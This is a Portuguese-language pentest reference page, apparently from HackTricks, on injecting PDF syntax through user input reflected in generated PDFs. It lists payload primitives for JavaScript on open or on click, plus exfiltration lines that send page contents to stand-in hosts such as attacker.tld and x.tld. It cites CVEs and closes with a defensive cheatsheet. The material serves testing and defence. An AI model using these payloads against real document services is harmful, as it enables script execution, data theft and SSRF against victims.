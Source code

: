 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Se sua entrada está sendo refletida dentro de um arquivo PDF, você pode tentar injetar dados PDF para executar JavaScript, realizar SSRF ou roubar o conteúdo do PDF.**
A sintaxe PDF é extremamente permissiva – se você conseguir sair da string ou dicionário que está incorporando sua entrada, pode adicionar objetos totalmente novos (ou novas chaves no mesmo objeto) que o Acrobat/Chrome irá analisar felizmente.
Desde 2024, uma onda de relatórios de bug-bounty mostrou que *um parêntese ou barra invertida não escapado é suficiente* para a execução completa de scripts.

## TL;DR – Fluxo de Ataque Moderno (2024)
1. Encontre qualquer valor controlado pelo usuário que acabe dentro de uma **(string de parênteses)**, `/URI ( … )` ou campo `/JS ( … )` no PDF gerado.
2. Injetar `) ` (fechando a string) seguido por um dos primitivos abaixo e terminar com outro parêntese de abertura para manter a sintaxe válida.
3. Entregar o PDF malicioso a uma vítima (ou a um serviço de backend que renderiza automaticamente o arquivo – ótimo para bugs blindos).
4. Seu payload é executado no visualizador de PDF:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (veja CVE-2024-4367)
* Acrobat → API JavaScript Completa (pode exfiltrar conteúdos de arquivos arbitrários com `this.getPageNthWord`)

Exemplo (sequestro de link de anotação):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*O primeiro `)` fecha a string URI original, em seguida, adicionamos um novo dicionário **Action** que o Acrobat executará quando o usuário clicar no link.*

## Primitivas de Injeção Úteis
| Objetivo | Trecho de Payload | Notas |
|----------|-------------------|-------|
| **JavaScript ao abrir** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Executa instantaneamente quando o documento é aberto (funciona no Acrobat, não no Chrome). |
| **JavaScript ao clicar no link** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | Funciona no PDFium & Acrobat se você controlar uma anotação `/Link`. |
| **Exfiltração de dados cega** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | Combine com `this.getPageNthWord` dentro do JS para roubar conteúdo. |
| **SSRF do lado do servidor** | O mesmo que acima, mas direciona para uma URL interna – ótimo quando o PDF é renderizado por serviços de back-office que respeitam `/URI`. |
| **Quebra de linha para novos objetos** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Se a biblioteca permitir que você injete caracteres de nova linha, você pode criar objetos totalmente novos. |

## Truque de Enumeração Cega
Gareth Heyes (PortSwigger) lançou uma linha única que enumera todos os objetos dentro de um documento desconhecido – útil quando você não pode ver o PDF gerado:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
O código itera sobre o DOM do Acrobat e faz solicitações externas para cada par de propriedade/valor, fornecendo um despejo *JSON-ish* do arquivo. Veja o white-paper “Portable Data **ex**Filtration” para a técnica completa.

## Bugs do Mundo Real (2023-2025)
* **CVE-2024-4367** – Execução arbitrária de JavaScript no PDF.js do Firefox antes da versão 4.2.67 contornou o sandbox com uma ação `/JavaScript` manipulada.
* **Bug bounty 2024-05** – Uma fintech importante permitiu notas de fatura fornecidas pelo cliente que foram parar em `/URI`; o relatório pagou $10k após demonstrar SSRF para o host de metadados interno usando `file:///` URI.
* **CVE-2023-26155** – Injeção de comando `node-qpdf` via caminho PDF não sanitizado mostra a importância de escapar barras invertidas e parênteses mesmo *antes* da camada PDF.

## Cheatsheet Defensivo
1. **Nunca concatene entrada bruta do usuário** dentro de strings ou nomes `(`…`)`. Escape `\`, `(`, `)` conforme exigido pelo §7.3 da especificação PDF ou use strings hexadecimais `<...>`.
2. Se você construir links, prefira `/URI (https://…)` que você *totalmente* codifique em URL; bloqueie esquemas `javascript:` em visualizadores de cliente.
3. Remova ou valide dicionários `/OpenAction`, `/AA` (ações adicionais), `/Launch`, `/SubmitForm` e `/ImportData` ao processar PDFs.
4. No lado do servidor, renderize PDFs não confiáveis com um *conversor sem cabeça* (por exemplo, qpdf –decrypt –linearize) que remove JavaScript e ações externas.
5. Mantenha os visualizadores de PDF atualizados; PDF.js < 4.2.67 e Acrobat Reader antes de julho de 2024 permitem execução de código trivial.

## Referências
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (atualizado em maio de 2024). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Execução Arbitrária de JavaScript no PDF.js” (abr 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
